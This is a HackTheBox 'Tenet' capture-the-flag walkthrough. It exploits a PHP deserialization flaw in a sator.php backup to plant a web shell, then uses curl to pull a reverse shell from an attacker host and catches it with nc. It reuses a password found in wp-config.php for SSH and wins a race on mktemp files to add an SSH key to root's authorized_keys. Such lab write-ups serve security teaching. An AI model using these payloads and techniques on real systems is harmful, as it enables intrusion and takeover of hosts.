





# Tenet - HackTheBox
Linux, 30 Base Points, Medium

## Machine


 
## Tenet Solution

### User

So let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $nmap -sC -sV -oA nmap/Tenet 10.10.10.223
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-01 21:06 IDT
Nmap scan report for 10.10.10.223
Host is up (0.078s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp   open     http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2725/tcp filtered msolap-ptp2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.33 second

```

Let's try to observe port 80:


Nothing juicy.

By running [gobuster](https://github.com/OJ/gobuster) as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $gobuster dir -u http://10.10.10.223 -x php,log,txt -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --wildcard -o gob
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.223
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     log,txt,php
[+] Timeout:        10s
===============================================================
2021/04/01 21:10:15 Starting gobuster
===============================================================
/users.txt (Status: 200)
/wordpress (Status: 301)
```

We found the following page [http://10.10.10.223/wordpress](http://10.10.10.223/wordpress) which contains:



We can see the link [Tenet](Tenet.htb) which is [tenet.htb](tenet.htb), Let's add it to ```/etc/hosts```:
```
10.10.10.223    tenet.htb
```

Now, Let's try to observe ```http://tenet.htb```:



By simply enumerate the file we can see the following comment was created by user ```neil``` at this url ```http://tenet.htb/index.php/2020/12/16/logs/```:



So It's mean there is a backup file called ```sator.php```, We can access this file by url ```http://10.10.10.223/sator.php.bak```, This file contains:
```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();

?>
```

Let's look at the following two lines:
```php
...
$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);
...
```

It's mean we can send our ```DatabaseExport``` with parameter ```arepo``` to be unserialize.

The function ```__destruct()``` write the content of ```$data``` to ```$user_file```, So let's create our ```DatabaseExport``` class that contains ```$data``` as php web shell and ```$user_file=shell.php```:
```php
<?php
class DatabaseExport
{
    public $user_file='shell.php';
    public $data="<?php system(\$_GET['cmd']); ?>";
}
$payload=new DatabaseExport;
echo serialize($payload);

?>
```

Run this php file to get the class serialized:
```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $ php webshell.php 
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}
```
Now we can send the payload using ```http://10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}```

By access to the url above we get the output:



It's mean our payload created, Let's try to access it by ```http://10.10.10.223/shell.php?cmd=whoami```:



So now we can use ```curl``` to download from our machine the following php shell [http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) and run it.

1. http://10.10.10.223/shell.php?cmd=curl http://10.10.14.14:8000/revshell.php - Download the php reverse shell
2. Listen to port you specify on php reverse shell called ```revshell.php```.
3. http://10.10.10.223/shell.php?cmd= php revshell.php - Run the php reverse shell.

And we get shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from tenet.htb [10.10.10.223] 21532
Linux tenet 4.15.0-129-generic #132-Ubuntu SMP Thu Dec 10 14:02:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:22:21 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

So by running ```ls /home``` we know we have user called ```neil```:
```console
$  ls /home
neil
```

Let's try to search some info about ```neil``` user in ```/var/www/html```:
```console
$ grep -r "neil" .
./wordpress/wp-config.php:define( 'DB_USER', 'neil' );

```
By cat the file ```./wordpress/wp-config.php``` we can found the follow:
```php
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

Which is the user password of ```neil```, Let's try to connect using ssh with those creds:
```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $ ssh neil@10.10.10.223
The authenticity of host '10.10.10.223 (10.10.10.223)' can't be established.
ECDSA key fingerprint is SHA256:WV3NcHaV7asDFwcTNcPZvBLb3MG6RbhW9hWBQqIDwlE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.223' (ECDSA) to the list of known hosts.
neil@10.10.10.223's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Apr  1 19:27:11 UTC 2021

  System load:  0.0                Processes:             184
  Usage of /:   15.4% of 22.51GB   Users logged in:       0
  Memory usage: 13%                IP address for ens160: 10.10.10.223
  Swap usage:   0%

  => There is 1 zombie process.


53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Thu Dec 17 10:59:51 2020 from 10.10.14.3
neil@tenet:~$ cat user.txt
13c6e6d45d0d32a61e979547b490d0de
```

And we get user flag ```13c6e6d45d0d32a61e979547b490d0de```.

### Root

Let's try to run ```sudo -l```:
```console
neil@tenet:/tmp$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```
So It's mean we can run the script ```/usr/local/bin/enableSSH.sh``` as root, Let's try to observe the script:
```console
neil@tenet:/tmp$ cat /usr/local/bin/enableSSH.sh
#!/bin/bash

checkAdded() {

	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

		/bin/echo "Successfully added $sshName to authorized_keys file!"

	else

		/bin/echo "Error in adding $sshName to authorized_keys file!"

	fi

}

checkFile() {

	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

		/bin/echo "Error in creating key file!"

		if [[ -f $1 ]]; then /bin/rm $1; fi

		exit 1

	fi

}

addKey() {

	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

	(umask 110; touch $tmpName)

	/bin/echo $key >>$tmpName

	checkFile $tmpName

	/bin/cat $tmpName >>/root/.ssh/authorized_keys

	/bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded

```

Let's look at the function ```addKey()```, It's create temp file, write ```$key``` into the temp file then write it to ```/root/.ssh/authorized_keys```.

We need to be fast to override the tmp file was created by ```mktemp``` with our ssh public key.

First, Create file that contains our ssh public key and upload it to target machine (which you can create it by using ```ssh-keygen```:
```console
neil@tenet:~$ cat key
ssh-rsa <YOUR_SSH_PUBLIC_KEY> user@parrot
```

Then, Let's write two ```bash``` scripts:

1. Write the content of key file to ```ssh-*``` files in ```/tmp``` directory (which created by ```mktemp```):

```bash
neil@tenet:~$ cat write_key_to_tmp_files.sh
while true;do cat /home/neil/key |tee /tmp/ssh-* ;done
```
2. Run the script with ```while true```:
```bash
neil@tenet:~$ cat run_loop.sh
while true;do sudo /usr/local/bin/enableSSH.sh;done
```

Run it:
```console
neil@tenet:~$ bash run_loop.sh > /dev/null &
[1] 23659
neil@tenet:~$ bash write_to_ssh-.sh > /dev/null &
[2] 31460
```

Wait few seconds and then we can try to connect to target machine using our ssh private key to user root:
```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $ ssh -i id_rsa root@10.10.10.223
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0


53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Feb 11 14:37:46 2021
root@tenet:~# ls
root.txt
root@tenet:~# cat root.txt
3a976268306caa30c7dc0a641abd7699
```

And we get the root flag ```3a976268306caa30c7dc0a641abd7699```.